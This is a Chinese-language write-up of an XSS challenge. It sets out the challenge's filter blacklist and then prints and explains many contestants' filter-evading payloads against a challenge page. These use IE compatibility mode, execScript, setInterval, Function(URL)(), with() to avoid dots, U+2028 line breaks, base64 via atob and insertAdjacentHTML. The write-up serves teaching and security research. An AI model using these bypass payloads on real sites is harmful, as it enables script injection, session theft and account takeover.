 # XSS挑战第二期 Writeup

0x00前言
------

* * *

之前搞了一期感觉反响挺好的，就又搞了一期。不过说实话审核起来很吃力，因为大家的答案都太给力了。所以在接下来的解释文当中如果出现错误，希望各位看官可以不吝指正。可能参与的人，都发现了这期的核心问题就是【没有了”.”我们应该如何去XSS？】。如果有人有心去谷歌过这个问题，应该会在[http://sla.ckers.org/forum/read.php?2,12964,12974](http://sla.ckers.org/forum/read.php?2,12964,12974)这个链接里，找到答案。

```
with(location)with(hash)eval(substring(1))

```

作者在指定的代码区域内，使用with来实现了通过节点名称的对象调用。当然，如果问题只是这样的话，我相信大家会有很多的方案。所以为了增加点难度，我在上次的过滤规则上又过滤一些比较常用的手段。

0x01设定
------

* * *

(1) 过滤了所有的

```
#  \ < vbscript > ' 空格+on alert innerHTML document appenChild createElement src write String eval setTimeout unescape data javascript name ; window * 空格 TAB 0x0A 0x0C 0x0D prompt confirm MsgBox find print - vbs  location / urldecode [ ] . 0x00  $ jQuery + 

```

(2)过滤了第二个

```
" 和 =

```

可能有些规则和一般意义上的过滤代码有较大的出入，这个也是因为怕有人把这个游戏理解成廉价的WAF测试。>.<

0x02结果
------

* * *

![enter image description here](http://drops.javaweb.org/uploads/images/f87686064a0e5ac2887415afe9e67967eecfc80b.jpg)

这次是上次挑战的第一名/fd拿下了这次挑战的First Blood。

```
<meta http-equiv="X-UA-Compatible" content="IE=9"> 
<iframe src=http://techni.duapp.com/challenge/index.php?xss=%22onblur=`execScript(URL)`#&#x2028;alert(1)></iframe>

```

这应该算是集合了很多IE特色的答案。用到了兼容模式，来让最新版的IE支持这个反引号的使用，提高了XSS代码的兼容性也避免了因后面语句的修复所带来的长度问题。还有就是这个execScript在我的理解当中应该是和eval()拥有几乎相同的功能的一个IE特色方法。可能和eval最大的区别就是execScript的作用域非当前域，而是全局作用域吧。然后就是这个`#&#x2028;`可能一部分人不是特别熟悉，如果你有阅读过ECMAscript规范，那么你应该会发现除了`0x0A/0x0D`以外`U+2028/2029`也可以作为换行符来使用。

来自/fd的另一份答案：

```
<meta http-equiv="X-UA-Compatible" content="IE=9"> 
<iframe src=http://techni.duapp.com/challenge/index.php?xss=%22onblur=execScript(URL)%0b#&#x2028;alert(1)></iframe>

```

放弃了使用反引号，而使用0x0b进一步的缩减了一个字符。

来自Sogili的答案：

```
<iframe src="http://techni.duapp.com/challenge/index.php?xss=%22oncut=setInterval(URL)%%26quot#&#8232;alert(1)"></iframe>

<iframe src="http://techni.duapp.com/challenge/index.php?xss=%22oncut=`setInterval(URL)`#&#8232;alert(1)"></iframe>

<iframe src="http://techni.duapp.com/challenge/index.php?xss=%22oncut%3D%60Function%28URL%29%28%29%60#&#x2028;alert(1)"></iframe>

```

Sogili在第一个答案中选择了使用%+&quot的方式保证了后面语句的正确性。当然如果没有特殊限制，还有一些其它的逻辑运算符可以起到相同的作用（加减乘除和一些其它的符号）。然后就是这个setIterval函数，总体来说可能和setTimeout会有点相似。大的区别就在于eval会在指定的时间过后执行一次相对应的字符串的内容。而setIterval会在每经过设定的时间后都执行一次相对应的字符串。和/fd不同的是选择了`&#8232`来代替空白字符，最后巧妙地使用Function(URL)()（新建匿名函数并执行它的方式）完成了挑战。（看了几次没看懂，最后请教了一下二哥= =）

来自gainover的答案：

```
<script>     location.href='http://techni.duapp.com/challenge/index.php?xss="onblur=Function(URL)()%%26quot#\u2028alert(1)';     </script>

<script>     location.href='http://techni.duapp.com/challenge/index.php?xss="oncut=Function(URL)%%26quot#\u20281},alert(1),{';     </script> //测试于chrome26

```

和Sogili的最后一个答案大相径庭。

来自Retaker非常水的答案：

```
http://techni.duapp.com/challenge/index.php?xss=%22oncut%3DsetInterval%28value%29%2C%26quot

```

有人说这个和自己在地址栏输入`javascript:alert(1)`也差不多了。其实包括提交者和我也这么认为。但是因为参与的人实在太少了，就算上了。不过有另外一个同学很巧秒的利用了这个value。

来自8qwe24657913的答案：

```
http://techni.duapp.com/challenge/index.php?xss=YWxlcnQoKzEp%22oncut%3Dnew%28Function%29%28atob%28value%29%29%28%29%2C%26quot

http://techni.duapp.com/challenge/index.php?xss=al%2565rt%283%265%29%22oncut%3Dnew%28Function%29%28decodeURI%28value%29%29%28%29%2C%26quot)

http://techni.duapp.com/challenge/index.php?xss=YWxlcnQoKzEp%22oncut%3DsetInterval%28atob%28value%29%29%2C%26quot

http://techni.duapp.com/challenge/index.php?xss=YWxlcnQoMSk%22oncut%3DsetInterval%28atob%28value%29%29%2C%26quot

<iframe src="http://techni.duapp.com/challenge/index.php?xss=%22oncut=execScript(opener),%26quot" onload="contentWindow.opener='alert(1)'"></iframe> //

http://techni.duapp.com/challenge/index.php?xss=%22oncut=with(URL)execScript(slice(96)),%26quot#alert(1)

http://techni.duapp.com/challenge/index.php?xss=%22oncut=with(URL)setInterval(slice(97)),%26quot#alert(1)

http://techni.duapp.com/challenge/index.php?xss=%22oncut=with(URL)with(top)open(slice(0x65)),%26quot#javascript:opener.alert(1)     
http://techni.duapp.com/challenge/index.php?xss=afterEnd%22oncut%3DinsertAdjacentHTML%28value%2CURL%29%2C%26quot#<img/src=1 onerror=alert(1)> 

http://techni.duapp.com/challenge/index.php?xss=%22oncut=with(URL)with(top)open(slice(0x65)),%26quot#javascript:opener.alert(1)

http://techni.duapp.com/challenge/index.php?xss=al%2565rt%283%265%29%22oncut%3DsetInterval%28decodeURI%28value%29%29%2C%26quot

http://techni.duapp.com/challenge/index.php?xss=al0ert%283%265%29%22oncut%3Dwith%28value%29setInterval%28replace%280%2Cid%29%29%2C%26quot

http://techni.duapp.com/challenge/index.php?xss=oncutYWxlcnQoMSk%22oncut%3Dwith%28value%29setAttribute%28slice%280%2C5%29%2Catob%28slice%285%29%29%2C%26quot

```

其中的一个答案用到了一个很老的IE Opener BUG。还有一个小亮点就是，多处用到了xss攻击中出场率不是很高的base64解码函数atob()。由于提交的答案实在是太多，我就不一一解释了，感兴趣的同学可以自己亲手试一下。

来自StarMoon的答案：

```
http://techni.duapp.com/challenge/index.php?xss=%22oncut=with(URL)execScript(slice(98))%25%26quot#alert(1)

```

很中规中矩的答案，用with避免了”.”的使用，通过execScript来执行URL.slice(98)也就是#后面的alert(1)。

来自Dun的答案：

```
http://techni.duapp.com/challenge/index.php?xss="oncut%3DsetInterval%28decodeURI%28%26quot%2520aler%2574%28%29%26quot%29%29%7C%26quot

```

结合setInterval和decodeURI执行了部分二次URL编码后的alert(),最后再用`|&quot`修复了后面语句的正确性，完成了挑战。

0x03 写在最后
---------

* * *

因为个人水平有限，可能挑战的内容做的不是很好。和实际场景相比有一些出入。如果你觉得这些答案都很有趣并想对上面的方法进行测试，可能需要你付出一点点的耐心。因为，所使用的浏览器的不同，版本的不同，系统补丁的不同等缘故可能会有无法重现的情况发生。

附上此次比赛的源代码：[XSSC2.zip](http://static.wooyun.org/20141017/2014101714085323964.zip)